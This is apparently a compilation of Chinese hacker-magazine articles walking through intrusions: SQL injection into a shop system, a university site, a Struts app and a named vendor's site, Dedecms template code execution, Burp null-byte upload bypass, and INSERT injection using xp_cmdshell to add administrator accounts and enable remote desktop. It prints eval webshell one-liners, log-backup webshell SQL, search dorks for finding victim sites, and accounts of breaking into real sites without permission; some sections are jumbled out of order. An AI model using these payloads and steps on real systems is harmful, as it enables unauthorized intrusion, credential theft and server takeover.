漏洞的发现和公布者是流浪的风，他的漏洞题目是“网趣网上购物系统时尚版10.3注入漏洞”，在实际测试时网趣网上购物系统时尚版10.3以前的版本也存在这个漏洞。出注入漏洞的文件是admin目录下的editorderform.asp，关键代码如下：

```asp
<%dim zhuangtai,namekey
namekey=trim(request("namekey"))
zhuangtai=trim(request("zhuangtai"))
if zhuangtai="" then zhuangtai=request.QueryString("zhuangtai")
if namekey="" then namekey=request.querystring("namekey")

'按用户查询
if zhuangtai=0 or zhuangtai="" then
  rs.open "select distinct(dingdan),userid,userzhenshname,actiondate,songhuofangshi,zhifufangshi,zhuangtai from orders where zhuangtai<6 and username='"&namekey&"' order by actiondate desc",conn,1,1
else
  rs.open "select distinct(dingdan),userid,userzhenshname,actiondate,songhuofangshi,zhifufangshi,zhuangtai from orders where zhuangtai='"&zhuangtai&"' and username='"&namekey&"' order by actiondate",conn,1,1
end if
%>
```

可以看到变量namekey只过滤了两边的空格就带入了SQL

## 二、漏洞利用方法

要利用这个漏洞，首先要注册一个用户，因为你注册的用户名就是变盐namekey的值。我从网上下载了网趣网上购物系统时尚版v10.3(更新20100914)的源代码，在虚拟机里的Windows 2003系统中用IIS把程序运行了起来（如图1）。

访问地址为http://127.0.0.1/。点图中的注册按钮来注册一个用户，怎么注册我就不介绍了，注册时必填的东西随便写点什么就可以完成注册。我注册了一个用户名为test，密码为123456的用户，登录后（如图2）。

下面我们来下一个订单，随便点一个商品，点“购买”，接着点“去收银台”，再点“OK,下一步”，还是点“OK,下一步”，最后点“完成”后就会出现“恭喜订单提交成功”的提示，并且生成了订单号（如图3）。

到这里进行注入的准备工作就做完了，下面可以进行注入了。在浏览器中访问地址`http://127.0.0.1/admin/editororderform.asp?zhuangtai=0&namekey=test`，显示（如图4），其中地址中的127.0.0.1就是网趣网上购物系统网站的域名或IP地址，test就是我注册的用户名test，页面中的“1笔”是注入时的关键字。

把地址`http://127.0.0.1/admin/editororderform.asp?zhuangtai=0&namekey=test`放到pangolin中，“KeyWorld（关键字）”写上“1笔”，点“Check”按钮进行检测，检测结果（如图5）。

显示是一个String(字符)型注入点，数据库为Access。下面来猜管理员的用户名和密码，点“Datas”来到猜数据的地方，网趣网上购物系统存放管理员信息的表是cnhww，这个表名不在pangolin默认表名列表中，因此在Table/Column下面的编辑框中右键，选择“Add Table”来添加cnhww这个表（如图6）。

添加完表cnhww后直接双击cnhww表就开始猜解表cnhww中的字段名，很快就有了结果，点击表名前的加号发现猜到了5个字段名（如图7）。对我们有用的是admin和password两个字段名，分别对应的是网趣网上购物系统后台管理员的用户名和密码，选中这两个字段名，点“Datas”按钮开始猜解用户名和密码，猜解结果（如图8）。

双击猜到的结果，下面结果框中会出现猜解出的用户名和密码，并且可以复制，方便保存和进一步处理猜解出的结果。猜解出的管理员用户名为admin，密码为7a57a5a743894a0e，到在线破解网站破解结果为admin。

# 一个人的战争

网趣网上购物系统注册的默认后台目录为admin，直接访问http://127.0.0.1/admin/就来到了后台登录页面，用得到的用户名和密码顺利后入后台（如图9）。

在后台发现有数据库备份的地方，考虑通过备份数据库获得shell。但在备份数据库时发现不能自定义备份出来的文件的名字，无论怎么备份备份后的文件名都是shop.mdb，好在可以自定义备份出来的文件所在的目录，可以通过把shell备份到类似xxx.asp文件夹中获得shell，利用的是IIS 6.0的解析漏洞，前提是IIS的版本是6.0，好在现在大多数asp服务器用的都是IIS 6.0，很容易满足条件。

下面就用这个思路来获取shell。首先来上传一句话木马，把asp一句话木马代码`<%eval request("x")%>`保存到一个文本文档中，然后把这个文本文档重命名为asp.jpg，在网趣网上购物系统后台点击“商品管理”下的“添加商品”，然后在“商品图片”上传的地方点“上传小图片”来把我们的asp.jpg上传上去，尽管提示文件格式不正确，还是上传成功了，并且给出了文件上传后的地址upfile/proimage/2010101321104242019.jpg（如图10）。来备份数据库，点“数据处理”下的“数据备份”就来到了备份数据库的地方，当前数据库路径默认为../cnhwwdata/cnhww.asp，修改为../upfile/proimage/2010101321104242019.jpg，也就是修改为上传的一句话木马的地址，备份数据库目录默认为../Databackup，修改为../Databackup.asp（如图11），点“开始备份”进行备份，提示“数据库备份完成”，好像备份成功了，备份出来的文件在Databackup.asp目录下，文件名为shop.mdb，访问地址为http://127.0.0.1/Databackup.asp/shop.mdb，用laker2的eval最小马发送端连接http://127.0.0.1/Databackup.asp/shop.mdb，写上密码x，顺利得到shell（如图12）。

## 三、实战网上拿shell

上面我在虚拟机里演示了利用这个漏洞拿shell的过程，下面到网上实战拿个shell。浇馋的凤给出了一个搜索采用网趣网上购物系统网站的关键词inurl:trends.asp?id=，我再给出两个搜索关键词，“软件著作权证书登记号:2007SR02047”和“顾客您好,购买商品请先登录”。

通过搜索“软件著作权证书登记号:2007S R02047”找到了一个采用网趣网上购物系统的网站http://www.*2012.com/（我用*代替了实际网址中的一个字符）。挂上vpn，注册了一个名为chuntian的用户登录了进去（如图13）。

随便购买一个商品生成一个订单，得到注入地址http://www.*2012.com/admin/editorderform.asp?zhuangtai=0&namekey=chuntian，用pangolin猜解出了管理员的用户名admin和密码4814af6dd6a2224c，密码破解后的结果为820926（如图14）。用得到的用户名和密码进入后台，发现版本为网趣网上购物系统V8.6，说明最新网趣网上购物系统时间版10.3以前的版本也受这个漏洞的影响（如图15）。通过备份也拿到了shell（如图16）。

最后还是那句老话，网趣网上购物系统是一个网店系统，在练手拿shell的时候千万注意不要做任何破坏。

> （文章中所涉及的相应的工具已收录在本期光盘中）

# 大小通杀漏洞

## ——入侵本科生站全过程

小土[C.J.N]

高考完了，小弟有幸被一所大学录取了，但听前辈们都说如果在大学期间没有拿下学校主站的话，那就不能称得上是一名合格的黑客，所以小弟今天也来挑战下学校的主站。

有位师兄跟我说，学校的网站半年前曾被人入侵过，所以网站的安全应该有了很大的提高，想再次成功入侵并不是件容易的事。

D扫描有没有注射点，这里说个事情，最近阿D在自己的博客上公布了免费版的最新阿D注入工具，需要的朋友快去下载吧，比网上的安全稳定多了（如图1）。

从图中可以看到，阿D并没有扫出出明显的注入点，既然是这样，那么我们就自己找一下吧，用google hack来配合找注入点是一个常用又很好用的方法，我们打开google，然后在里面输入搜索语句“site:www.gzkjxy.net inurl:aspx”（如图2）。

“不信邪”的我还是打开学校的主站，通过查看地址栏，可以看出他是采用ASP.NET来架设的，我猜测数据库应该是MSSQL，因为ASP.NET和MSSQL是黄金搭档，所以我首先用阿

# 一个人的战争

GOOGLE帮我们找到了 一堆带参数的页面，我们随便打开一个，“http://www.hackerxfiles.net/article/showarticle.aspx?ArticleID=14”，然后用最新的检测注入点的方法来对这个页面进行检测，我们分别提交：`http://www.hackerxfiles.net/article/showarticle.aspx?ArticleID=14-0` 和 `http://www.hackerxfiles.net/article/showarticle.aspx?ArticleID=14-1`，两个页面都返回如图3所示的结果。

如果页面存在注入漏洞的话 `http://www.hackerxfiles.net/article/showarticle.aspx?ArticleID=14-0` 会返回正常页面，而 `http://www.hackerxfiles.net/article/showarticle.aspx?ArticleID=14-1` 则会返回一个不同于-0的页面。从图3中我们可以看出，这个地址并不存在注入漏洞，后面我又试了N个地址和搜索框，还是找不到注入漏洞。看来那位师兄说的没错，学校网站的安全系数确实提高了不少。

既然找不到注入点，那么我们就来扫描下网站的后台或上传页面吧，我分别用阿D和WSCAN对网站进行扫描。考虑到一些菜鸟又可能不会用WSCAN，所以这里我就说一下吧，打开CMD，跳转到WSCAN所在的目录，然后输入如下命令：

```bash
wscan -h www.hackerxfiles.net -r upfile.txt -p 80 -m 10 -t 3
```

“-h”参数后面是你要扫描的目标站的网址，“-r”参数后面是字典名字，要扫什么就填什么字典的名字，扫描结果如（图4、5）。

阿D扫出了几个没用的目录，但没有扫出后台，而wscan什么都没有扫出来。这下入侵陷入了僵局，似乎已经没有什么办法了。我又分别用IIS写权限漏洞扫描器和X-SCAN扫了下看看有没有什么漏洞，但结果仍然杯具，难道就这么放弃了吗？难道真的要考虑穿注和我躺在床上整理了一下思路，忽然脑子里想到一个点子，之前查询录取信息的学校分站好像是和主站在同一服务器同一目录下的。

器同一目录下的，那么会不会查询的地方就有注入点呢？如果注入点不是数据库分离的话，就有可能拿下主站了。找了大半天，终于找回之前查询录取信息的查询口 “zs.hackerxfiles.net”（如图6）。

我ping了一下，发现两个站都在同一服务器下，（如图7）。

然后我直接在主站网址后面提交一个XS的目录“www.hackerxfiles.net/xs/”，发现返回和“xs.hackerxfiles.net”的页面一样，说明这个分站不但和主站在同一服务器，而且还在主站的目录下。好了，现在我们试试这个查询口是不是存在注入漏洞，直接在里面提交一个单引号“'”，返回如图8所示的页面。

YEAH！存在注入漏洞，这下终于打开了入口了。这里要注意一个问题，就是虽然找到了注入点，但是必须要有一个已被录取的高考考生号才能构造出一个正常的页面和一个异常页面，这个简单，那就拿我自己的高考考号吧！

```
http://zs.hackerxfiles.net/lqcx.aspx?action=select&ID=120220
```

7107'and'1'='1和http://zs.hackerxfiles.net/qcx.aspx?action=select&ID=1202207107'and'1'='2，返回如图9、10所示的页面。

确定可以注入了，现在我们把注入点放到pangolin2.5上去注射吧。可无奈的是，虽然pangolin确定了注入点存在漏洞，但并不能注出什么东西，就连表也猜不了，只是确定了数据库为MSSQL2000（如图11）。

其后我又试了N个注入工具，只有啊D最新版能成功注入，而且权限是DB。嗯嗯，这说明只要我们找到路径，再备份一个一句话木马进去，主站就沦陷了！

ASPX有个暴路径的漏洞，就是提交~.aspx就可以爆出网站的路径，我们也来试试（如图12）。

看来漏洞被修补了，那我们只有从注射点中猜解路径了。啊D注入工具是所有注入工具中最好的路径猜解工具，因为其他工具猜解路径的原理是通过SQL错误信息来爆出路径，而啊D是通过纯猜解，所以很多别的工具猜解不了路径的注入点啊D都可以。现在我们来用啊D猜路径试试吧，（如图13）。

用了大约半个多小时，终于找到了网站的路径为“E:\web\www.xxxx.net”，于是马上备份了一个asp一句话马进去，谁知居然执行不了。可能是服务器禁止了执行ASP，所以我们需要手工备份一个asp.net一句话，代码如下：

```sql
alter database 库名 set RECOVERY FULL;
create table cmd (a image);
backup log 库名 to disk='c:\Sammy' with init;
insert into cmd (a) values (0x3c2540...);
backup log 库名 to disk='E:\web\www.xxx.net\x.aspx';
```

备份好后用ASPX一句话木马连接端提交一个大马上去就OK了，如图14、15所示。

# 一个人的战争

随便浏览了一下，发现什么目录都可以跨，考试试题、学生数据之类的文件一览无遗，权限大得要死，提权都免了，呵呵，至此我们学校的主站终于沦陷了。

本来因为曾经被人入侵过后，漏洞都修补了，但是可能因为录取信息查询口的程序是最近写的，所以程序员又开始没有注意安全问题了，导致产生了注入漏洞，危害到了学校网站以及数据的安全。现在我已经把漏洞补了，并通知了管理员。

其实当入侵陷入僵局的时候，我们要做的并不是放弃，而是想办法去突破，这才是技术提升的关键。最近黑X也遇到了挫折，再此我希望黑X可以早日重振旗鼓，小小挫折不算什么，因为有我们这帮铁杆粉丝在背后支持着你们！加油！

> （本文所涉及的软件阿D、WSCAN、pangolin2.5、aspx一句话后门已收录在本期光盘中）

## Burp suite网站攻击利器
快速处理上传截断

BlAck. Eagle[B.H.S.T]

Burp suite是一个安全测试框架，它整合了很多的安全工具，对于渗透的朋友来说，是不可多得的一款强中工具包，今天笔者带领大家来解读如何通过该工具迅速处理“截断上传”的漏洞。如果对该漏洞还不熟悉，就该读下以前的黑客X档案补习下了。

由于该工具是通过Java写的，所以需要安装JDK，关于JDK的安装，笔者简单介绍下。基本是傻瓜化安装，安装完成后需要简单配置下环境变量，右键“我的电脑”->“属性”->“高级”->“环境变量”，在系统变量中查找Path，然后点击编辑，把JDK的bin目录写在path的最后即可，如图1。


图1

通过CMD执行下javac看是否成功安装。安装配置成功则会显示下图信息。如图2。

这里的测试网址是笔者帮朋友测试某站点时获取的，登陆后台后可以发表新闻，但是只能上传图片。然后发现新闻的图片目录在upload/newsimg下。如图3。


图2


图3

后台有个“网站资料设置”的功能，可以自定义新闻图片的路径，但是当尝试把新闻图片路径改为“upload/newsimg.asp/”时，上传图片竟然上传失败了，所以这种方法失效。如图4。


图4

接下来我们尝试上传截断漏洞，可能大家经常用的是通过WSockExpert抓包，修改后通过nc来提交获取shell，但是大家会发现那样有点繁琐，我们看看今天的方法是多么高效！

首先运行Burp suite（burpsuite.jar），然后点击“proxy”标签，会发现burp suite默认的代理监听端口为8080，如果怕跟自己电脑上的某个端口冲突的话，可以点击“edit”进行编辑。笔者使用默认端口。如图5。

然后打开本地浏览器的代理设置的地方，IE一般为“工具”->“Internet选项”->“连接”->“局域网设置”，其他浏览器大致相同。如图6。


然后点击上方的“go”即可进行数据包的提交，提交成功后会返回提交的路径，如图11。


设置代理之后，我们到后台的某个上传新闻图片的地方上传一个图片木马，我这里的图片木马为asp一句话。如图7。

笔者通过菜刀就直接连接到一句话后门了。如图12，大家进行测试吧！


点击上传之后，我们到proxy的“history”选项，会发现该网站的某个POST提交请求，我们选中该链接后，右键选择“send to repeater”，如图8。

我们会发现刚才提交的请求的数据包，那么我们看一下，有一项是上传路径的地方，我们以前进行截断上传的时候经常修改这个地方，这次也不例外，我们把上传路径改为“upload/shell.asp”后面有一个空格，如图9。

然后选择“hex”进入16进制编辑模块，将空格的16进制20改为00，即null。如图10。

然后选择“hex”进入16进制编辑模块，将空格的16进制20改为00，即null。


（本文所涉及的软件Burp suite、JDK、asp一句话木马本期光盘已收录）

## 关于Insert类型注入浅析

菲&兴兴东

可能有时候小菜们会遇见一些站点，在注册的时候存在注入漏洞，今天我就讲解一下Insert类型漏洞注入方法。

## 一、简单的介绍

关于注入原理我简单的说下，注入的形成是由于程序员在编写代码的时候对获取的值过滤不严，直接带入数据库查询而产生的，这样我们就可以精心构造SQL语句，达到攻击的目的。还是不明白的同学，可以去看今年4期《黑客X档案》我写的《搜索型注入原理详细解析》我就不在多罗嗦了。在一次测试自己写的Myblog程序的时候，发现后台存在Insert型注入漏洞，在这里我就用这个Blog程序来演示关于Insert类型的注入怎么利用的。

### 二、blog程序代码

我写的Blog程序是基于3层思想开发的，以下是Blog程序关键代码，ASP.NET代码。

### 1. 表示层代码

```
csharp
protected void Button1_Click(object sender, EventArgs e)
{
    link like = new link();
    like.Linkname = TextBox1.Text.Trim();
    like.Url = TextBox2.Text.Trim();
    string message;
    if (LinkBLL.LinkAddB(like, out message)) // 调用数据逻辑层方法注入也产生在这参数没有过滤就直接传入到了方法中的sql语句中
    {
        //Response.Write("<script>alert('添加成功')</script>");
        JavaScriptManager.AlertLocation(message, "Admin_Link.aspx");
    }
    else
    {
        JavaScriptManager.Alert(message);
    }
}

```

### 2. 数据逻辑层

```
csharp
public static bool LinkAddB(link like, out string message)
{
    if (LinkDAL.AddLinkD(like) != 0) // 调用数据访问层方法
    {
        message = "添加成功";
        return true;
    }
    else
    {
        message = "添加失败";
        return false;
    }
}

```

### 3. 数据访问层

```
csharp
public static int AddLinkD(link li)
{
    string sql = string.Format("insert into link values('{0}','{1}')", li.Url, li.Linkname);
    return DBHelper.ExecuteCommand(sql);
}

```

## 三、实践演习

我先普及下SQL的科普知识，先看看关于insert语句语法。INSERT INTO语句用于向表格中插入新的行，也可以指定所要插入数据的列。语法是：

```
sql
INSERT INTO 表名称（列1, 列2, ...）VALUES（值1, 值2, ...）

```

下面我们开始实战演习存在漏洞的页面（如图1）。在添加友情链接的时候，没有对输入的值进行过滤产生了注入，下面我们来看这个Insert注入怎么利用。

框输入“‘fei’)--”（如图2）。


图1


图2

然后点击添加后出现了错误（如图3）。


图3

出现这个错误是必然的，现在我帮小菜们分析下程序中现在的sql语句什么样的，现在程序中语句如下“insert into link values('fei')--;')”因为上面语句中插入的值的数目和字段数目不符合，所以会报错，我们在网络上去测试的时候只能去猜解有多少个字段，我们可以这样提交“fei')--”这样去测试，如果还报出上图的错，就在语句中加null，一直到不报错这样就能测试出有多少个字段了，我提交“fei,null)--”添加成功（如图4）。


图4

确定为两个字段。下面测试下权限“fei,cast(user as int))--”是sa权限（如图5）。


图5

然后判断下是否站库分离，执行“cast(@@servername+'|'+host_name() as int),”爆出相同的话就证明在一个服务器上（如图6）。

Sa权限下可以直接用xp_cmdshell执行系统命令添加账户，在文本框输入“fei',null);exec xp_cmdshell'net user feihacker 4358849 /add'--”提交（如图7）。


图6


图7

出现这个错误的原因是因为Xp_cmshell没有开启，我们可以用语句开启，我们在文本框执行“fei,null);EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--”提交后提示添加成功（如图8）。

然后我们在文本框执行“fei',null);exec xp_cmdshell'net user feihacker 4358849 /add'--”提交后返回添加成功的页面这就说明我们的命令被执行了，然后在执行“fei',null);;exec master..xp_cmdshell 'net localgroup Administrators feihacker /add'--”这句就是把刚才添加的账户，添加到管理员组，提交后也返回了添加成功提示（如图9）。


图8


图9


图10

我是在本地测试的，现在我们来看看是不是添加账户成功。开始运行-cmd然后输入“NET USER”命令，执行结果（如图10）。

Fcihacker账户添加成功，如果在真实的人侵当中服务器没有开启3389我们也可以用sql语句来开启对方的3389，下面两条语句非别是开启和关闭3389的，语句如下：

```
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\\CurrentControlSet\\Control\\Terminal Server','fDenyTSConnections',REG_DWORD,0;--
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\\CurrentControlSet\\Control\\Terminal Server','fDenyTSConnections',REG_DWORD,1;--
```

## 四、小结

到此就算搞定了一个存在Insert注入的站点，和常规的注入没有什么区别，这篇文章只是给大家一个清晰的思路和整体步骤，在实战的时候可能还会遇到这样那样的麻烦，希望能给各位菜鸟的学习路上带来帮助，就到这里，BYE…

> （文章中所涉及到的脚本程序已收录在光盘中）

## 犯一次入侵Java Web的过程

一日正在上网，QQ群一个好友发来一个网址，要我帮他检测一下某网站并将地址发给了过来，我看了一下，网站文件的后缀是.do的（图1），这种网站是用struts框架开发的。


struts是一个免费的、开源的Java Web开发框架，提供MVC体系结构，以及其他的工具比如常用的标签、表单数据的验证等。Struts是Java开发中应用最广泛的MVC框架，有着详细的文档、广泛的支持。Struts目前包括1.x版本与2.x版本，这种.do的是1.x版本。

正好最近在培训班里学习j2ee，就帮这个网站检测一下安全性，首先是扫描一下服务器开放端口的情况（图2），再访问http://202.202.12.xxx:8080/（图3）。


看来服务器是Tomcat，然后在查找一下有没有注入漏洞存在，经过一番查找，终于发现了一个注入点，在地址后面加上' and '1'='1返回正常，' and '1'='2返回错误（图4）（图5），说明这是一个字符型注入点。

这种中小型的网站一般是sql server或者mysql数据库，提交：`http://202.202.12.xxx:8080/Yjsh/www_News.do?ID=1344`……返回正确页面，我们知道 SQL SERVER 是支持“--”这种注释的，而 Mysql 不支持，这样大概是 SQL SERVER 数据库。我们在用阿D验证一下（图6），居然是 SA 权限而且支持多行执行，但是服务器没有开放 3389……


图6

上面已经看到了网站还开放着80端口，我们访问一下看看（图7），这个是 IIS 的默认页面，这下有办法了，提交：`http://202.202.12.xxx:8080/Yjsh/www_News.do?ID=1344;exec master.dbo.xp_cmdshell'ipconfig>c:\inetpub\wwwroot\1.txt'--`，访问 `http://202.202.12.xxx/1.txt`（图8）……


图7


图8

再提交：`http://202.202.12.xxx:8080/Yjsh/www_News.do?ID=1344;exec master.dbo.xp_cmdshell'echo ^<%eval(request("#"))%^>c:\inetpub\wwwroot\1314.asp'--`，写海阳一句话木马进去，连接一下（图9）。


图9

拿到 webshell 之后要想办法提权……Tomcat 的管理密码是存放在 `tomcat-users.xml` 文件里的，经过查找终于找到了（图10），接着访问 `http://202.202.12.xxx:8080/manager/html`，上传一个 war 木马，得到 jsp 的 webshell（图11）。

```
xml
<?xml version='1.0' encoding='utf-8'?>
<tomcat-users>
  <role rolename="manager"/>
  <role rolename="admin"/>
  <user username="admin" password="******" roles="admin,manager"/>
</tomcat-users>

```

图10


图11


图12

接下来的就是上传一个开3389的批处理再添加一个管理员账号，然后成功登陆服务器（图12），这次的渗透就算成功结束了，希望对各位在人侵 java web 时有所帮助。

# 记一次学习用 Dedecms 模板执行漏洞拿站的过程

这几天在拿一个站的 shell，经过前期的信息收集，发现网站用的是 Dedecms，把常用的几个以前 Dedecms 的漏洞测试了一遍，都没成功。在翻收集的漏洞资料时看到了“Dedecms <= V5.6 Final 模板执行漏洞”这个漏洞，记得这个漏洞是今年夏天出的，由于漏洞利用过程比较麻烦，当时没耐心测试就放在电脑里没动。后面在 100ls.net 论坛找到了详细帖子，照着一步步操作，最后如愿拿到网站 shell。


## 一、Dedecms <= V5.6 Final 模板执行漏洞简介

Dedecms <= V5.6 Final 模板执行漏洞由 oldjun 公开。大意是：版本中的部分文件存在问题，构造恶意模板内容后，可通过后台上传附件，再结合 SQL 注入修改模板路径，最终触发模板解析执行恶意代码。


## 二、拿 shell 的过程

上面说到 Dedecms <= V5.6 Final 模板执行漏洞利用起来较麻烦，因为公开程序里有不少地方需要按目标站点情况修改。首先需要注册一个用户；有些网站隐藏了注册入口，可以直接访问 `/member/index_do.php?fmdo=user&dopost=regnew` 打开注册页面。注册成功后会进入会员中心（如图2）。

下面要用到第一个漏洞利用程序，也就是构造的模板文件。为了顺利上传，文件后缀改成 `.gif`。

```
php
{dede:name runphp='yes'}
$fp = @fopen("1.php", 'a');
@fwrite($fp,"<?php\r\n\r\n".'eval($_POST[cmd]);'."\r\n\r\n?>\r\n");
@fclose($fp);
{/dede:name}
```

一下生成的文件名和一句话木马的连接密码，修改后为

```
php
{dede:name runphp='yes'}
$fp = @fopen("x.php", 'a');
@fwrite($fp, "<?php"."\r\n\r\n".eval($_POST[x])."\r\n\r\n?>\r\n");
@fclose($fp);
{/dede:name}
```

为了绕过上传检查，需要在代码前面加上gif89a，但在实际拿shell时，加了gif89a后仍然不让上传，我索性用系统自带的画图程序新建了一个gif文件（一个红色的小长方形），保存为1.gif，然后用记事本打开1.gif，在文件内容最后按回车键直起一行，然后加入代码

```
php
{dede:name runphp='yes'}
$fp = @fopen("x.php", 'a');
@fwrite($fp, "<?php"."\r\n\r\n".eval($_POST[x])."\r\n\r\n?>\r\n");
@fclose($fp);
```

如图3，保存修改后1.gif已经可以成功上传，而且缩略图也显示正常。


图3

1.gif已经构造完成，该把它传到网站上了。点图2中的内容管理中的文章右面的“发表”来发表一篇文章，文章标题随便写，文章求属的栏目我随便选了一个眼科知识，在“缩略图”的地方通过“浏览”按钮选择精心构造的1.gif上传上去，输入验证码点“提交”按钮（如图4），提示文章发表成功；点图5中的“更改文章”就来到了如图6的页面。右键=>查看源文件，打开当前网页的源文件，…会要用到。


图4

下面该另两个漏洞利用程序出场了，它们都是提交内容用的html文件，是伟大娃娃的漏洞利用动画里附带的，我这里直接借用了，呵呵。两个html文件的名字分别为1.html和2.html。根据具体情况来修改1.html和2.html，首先来修改1.html。1.html有3个地方需要修改，分别是提交地址、aid和oldurl。用记事本打开1.html，把action后面的提交地址中的http://127.0.0.1/dedecms修改对目标网站的地址，来到刚才打开的网页源代码的文件，Ctrl+F，查找aid，发现刚才发表文章的aid为383（如图7）。


图5


图6


图7

把1.html文件中的aid对应的value修改为383，网页源代码中oldlitpic的值为/uploads/userup/26/12Y6ITI5-2928.gif，我只需要userup后面的数字26，把26替换1.html中oldurl值../uploads/userup/2/1.gif中userup后面的数字2（如图8）。


图8

1.html修改完成，来修改2.html。用记事本打开2.html，2.html需要修改的地方有5处，分别是提交地址、aid、idhash、templet和option，提交地址修改为目标网站的地址，aid和idhash在网页源代码中找到修改为对应的值（图7中我标记的地方），templet对应的是网页源代码中oldlitpic的值，还是只需要把2修改为对应的26就行，option对应的是发表的文章所属的栏目，在网页源代码中查找selected，发现我发表文章的栏目眼科知识的option value='22'（如图9），把2.html中option的值也修改为22，修改完成的2.html（如图10）。保存对2.html的修改。

点“提交”按钮（图12），看到如图13的成功更改文章的提示就是提交成功了，点“查看文章”，看到如图14的缩略图就说明漏洞利用成功了，已经在plus目录下生成了一个话木马文件x.php。


用浏览器打开修改后的1.html，通过“浏览”按钮选择构造的1.gif，点“更改”按钮（如图11）。

一句话木马地址为http://www.lb****.com/plus/x.php（为了不必要的麻烦，我用*代替了目标网站地址中的几个字母），用lanker一句话PHP后门客户端连接，成功得到shell（如图15）。删除刚才发表的文章，至此拿站的目标完成。提权就先不提了，已经快下午1点了，还没吃午饭呢，吃饭去，哈哈。


先看到“修改文件成功”再看到“附件不存在”的提示就说明修改成功了。接着用浏览器打开2.html，输入验证码后……

> （文章中所涉及到的相关文件已收录在光盘中）

## 小漏洞淘金学大织咀

## ——简单脚本漏洞查找和常用技术回顾

今天一个好朋友发来邮件，随便和他寒暄了几句后，听说他想给他们的工作单位找个简单实用的web程序，功能不用太多，看上去大方明了就行了，初步确定选用精才公司的程序，想叫我看看这个程序实不实用。

好了，如果对上面的几个基本概念了解了以后，我们就可以来看代码了：

```
If (Request.QueryString("id")<>"") Then
' 取得客户端提交的信息，如果不为空就执行下面的操作

' 中间无关代码省略

sql="SELECT * FROM newsall WHERE id="&request("id")&""
' 大家注意，精闳程序里只发现没有经过任何过滤，直接就执行了SQL指令。
```

## 一、解析代码

是朋友的事，当然也就是我的事啦，义不容辞，来到精才的官方网站看了下下（如图1）。


符合他的要求，下了套源代码，打开news_type.asp。首先有几个概念大家要理解一下，对与大家查找漏洞有关的。Request，这个是ASP程序中的一个内建对象，就是用来获取客户端信息的，有五种方法，而大家只要知道其中的三种就好：

- **1. Request.QueryString**：取得客户端提交的信息。当Form以Get方法提交信息，或是在URL中提交变量值时，服务器端接收数据时采用的就是这种方法。
- **2. Request.Form**：同样也是取得客户端提交的信息，但它接收的是Form以Post方法提交的信息。
- **3. Request.Cookies**：取得客户端浏览器的Cookies信息。Cookies指一些私人信息，如用户名、密码之类的信息。

但是有些程序员为了减少错误，对于前两种信息的获取，会采用Request来取得客户端提交的信息，这种方法虽然可以包括Request.QueryString和Request.Form的提交信息，但如果过滤得不好，就会为我们服务。^_^

大家明白，产生注入的主要因素就是从客户端提交上去的变量没有经过replace()或instr()等函数的过滤，直接就执行了SQL操作。大家可以举一反三，在查找其他程序的漏洞时差不多都是这些方法。

## 二、动手操作

下面要说的就是漏洞利用了，用工具？no no no，我不提倡这种方法，许多人说菜鸟只要会用工具就好了，编写工具就是高手的事情了，我觉得这话说的不对，工具应该是给高手们用的，因为他们知其然，还知其所以然。菜鸟们就不一样了，就算我们不会编程序，我们也应该知道工具的运行原理，下面就和我一起来吧，顺便写下来，以备后查，就拿他的官方发布网站做测试吧。

### 1. 构造地址

```
http://www.finetalent.net/china/news_type.asp?id=68 and (select count(*) from [admin])>0

// 判断是否有admin这个表
// 原理就是判断admin这个表中的记录数量是否大于1，如果有一条以上返回真，反之为假，就会报错。返回正常，说明存在这个表。
```

### 2. 猜测字段

```
继续构造语句：
http://www.finetalent.net/china/news_type.asp?id=68 and (select count(user) from [admin])>0

// 判断admin表中是否存在"user"字段，返回为真，从而确定存在"user"这个字段。
```

(select count(password) from [admin])>0 ...（原理与猜解表名类似）... 返回。（如图2）


图2

```
http://www.finetalent.net/china/news_type.asp?id=68 and (select count(pw) from [admin])>0

http://www.finetalent.net/china/news_type.asp?id=68 and (select len(user) from [admin])>5

http://www.finetalent.net/china/news_type.asp?id=68 and (select asc(mid(user,1,1)) from [admin])>100

http://www.finetalent.net/china/news_type.asp?id=68 and (select asc(mid(user,1,1)) from [admin])<150

http://www.finetalent.net/china/news_type.asp?id=68 and (select asc(mid(user,2,1)) from [admin])<100
```

围绕 admin 表字段、账号长度与字符 ASCII 范围进行折半猜解，最终得到账号信息（文中给出示例结果）。

### 3 刺探密码

接下来的不用说就是对密码的刺探，原理和对账号信息的猜解基本一致，构造语句继续猜解密码长度与字符，最终得到密码。

```
(select len(pw) from [admin])>5

and (select asc(mid(pwd,1,1)) from [admin])>50
```

继续构造语句并验证结果，登录后台后寻找上传点，尝试上传 webshell，最终确认后台对文件类型判断不严。


图3

## 三、漏洞修补

针对注入点给出修补思路：对输入参数进行过滤（如 replace 处理单引号）、在 SQL 执行前校验 id 长度与格式，并按需增加关键字符过滤规则。

## 征菜鸟与老鸟的一次生死点人提

文末以“菜鸟黑客”与“老鸟黑客”对比展开，讨论批量扫描与定向渗透的差异，并结合个人经历说明从工具化到目标化实战的成长过程。

# 一个人的战争

的介绍，让我为一个网站作一下友榜检测，看看是否能拿下来。呵呵，正好手痒得很，开工！

## 一、首战失利

先在360浏览器中输入对方的网址（http://www.xxx.gov.cn/）粗略地看了下，还算漂亮，随便点击打开几条新闻看看，URL后缀基本上是“readnews.asp?newsid=15913”之类的形式，呵呵，不会有注入漏洞吧？要是有就省事多了，赶快拿出“啊D注入工具”，在“扫描注入点”中“注入连接”处粘贴上（http://www.xxx.gov.cn/readnews.asp?newsid=15901），然后点击后面的“检测”按钮。很快结果就出来了，郁闷，“啊D”居然提示“这个连接不能SQL注入！请试别的连接！”（如图1）。不过别灰心，再试试“啊D”的“管理入口检测”吧，说不定会有惊喜呢！但很快我又失望了，虽然“啊D”扫描出两个“可用连接和目录位置”（如图2），但经过试验，一个是test.asp（估计是网管刚建站时的测试文件），一个是无效的“找不到IDQ文件.idq”。

